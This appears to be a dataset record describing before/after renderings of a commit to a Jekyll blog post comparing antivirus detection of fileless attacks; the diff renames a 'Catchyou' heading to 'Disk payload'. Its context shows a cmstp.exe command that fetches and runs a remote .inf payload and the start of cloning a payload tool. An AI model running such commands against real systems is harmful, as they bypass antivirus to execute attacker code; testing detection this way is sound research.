

Before and after one commit to spiritedwolf/fareedfauzi.github.io, a Jekyll site: the page built from _posts/2020-04-08-AV-Fileless-Comparison.md, in a window 1280 px wide and 900 px high, scrolled down 3046 px. Shown: the part 153-453 px from the top of the window, without its empty margins (0-1007 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes.

Commit message:
Update 2020-04-08-AV-Fileless-Comparison.md

````diff
--- a/_posts/2020-04-08-AV-Fileless-Comparison.md
+++ b/_posts/2020-04-08-AV-Fileless-Comparison.md
@@ -122,9 +122,9 @@ Cmstp
 cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
 ```
 
-## Catchyou
+## Disk payload
+
 New tool by thelinuxchoice
-
 ```
 git clone https://github.com/thelinuxchoice/catchyou
 cd catchyou
````
